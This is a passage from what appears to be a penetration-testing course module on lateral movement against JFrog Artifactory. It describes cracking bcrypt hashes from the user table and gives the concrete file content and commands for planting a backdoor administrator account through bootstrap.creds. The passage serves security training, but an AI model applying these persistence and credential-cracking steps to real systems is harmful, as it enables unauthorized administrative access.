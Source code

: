 > Listing 55 - Listing the users

The command selects all records from the access\_users table, which holds the user records for the Artifactory system.

Each record includes the bcrypt-hashed passwords of the users we found earlier in our database backup file approach. As we did previously, we can crack the hashes using Hashcat or John the Ripper on our Kali VM.

1

(JFrog Ltd., 2020), [https://www.jfrog.com/confluence/display/JFROG/PostgreSQL](https://www.jfrog.com/confluence/display/JFROG/PostgreSQL) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_568-1)

2

(Wikipedia, 2020), [http://db.apache.org/derby/releases/release-10.15.1.3.html](http://db.apache.org/derby/releases/release-10.15.1.3.html) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_568-2)

3

(Apache Software Foundation, 2013), [https://db.apache.org/derby/docs/10.15/getstart/tgsrunningij.html](https://db.apache.org/derby/docs/10.15/getstart/tgsrunningij.html) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_568-3)

#### 17.2.12. Adding a Secondary Artifactory Admin Account

In addition to the vectors we've already explored, we can also gain access to Artifactory by adding a secondary administrator account through a built-in backdoor. If an administrator account is corrupted, or they lose access to the system, Artifactory offers an alternative option for gaining administrative access. This method will require restarting the Artifactory process, meaning there is some risk of data corruption or production downtime. As a result, this may not be an appropriate solution for all engagements.

This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.

To demonstrate this method, we'll log in to the controller server as _offsec_ and navigate to the /opt/jfrog/artifactory/var/etc/access folder. We then need to create a file through _sudo_ called bootstrap.creds with the following content.

```
haxmin@*=haxhaxhax
```

> Listing 56 - Adding backdoor admin account

This will create a new user called "haxmin" with a password of "haxhaxhax". Next, we'll need to chmod the file to 600.

```
offsec@controller:/opt/jfrog$ sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```

> Listing 57 - Changing the file permissions

For this user to be created, we need to restart the Artifactory process. Because Artifactory is being run as a daemon process, we can stop it and then restart it using the following commands.
